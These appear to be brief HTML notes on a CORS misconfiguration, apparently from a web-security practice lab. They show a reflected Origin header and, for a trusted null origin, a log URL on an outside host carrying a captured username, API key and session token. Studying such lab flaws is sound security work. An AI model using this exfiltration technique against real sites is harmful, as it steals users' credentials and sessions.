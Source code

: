 <h1>CORS Misconfiguration</h1>
<h3>Impact:</h3>
<p>Api token, email, password, and other types of sensitive data exposure</p>
<hr>
<code>Origin: https://example.com</code>
o
<code>Origin: http://example.com</code>
<p>Response:</p>
<code>Access-Control-Allow-Origin: https://example.com</code>



<p>CORS vulnerability with trusted null origin</p>
<p>-Go to console.log, and you must see:</p>
<p>https://angeljuanma.github.io/log?key={ "username": "wiener", "email": "", "apikey": "ILmCsS4WvD12NbFLxkHaUt7PnL3cFDzU", "sessions": [ "mWXTjX7lmBUZlRJ9TPWqfN7FxBggUFKg" ] }</p>
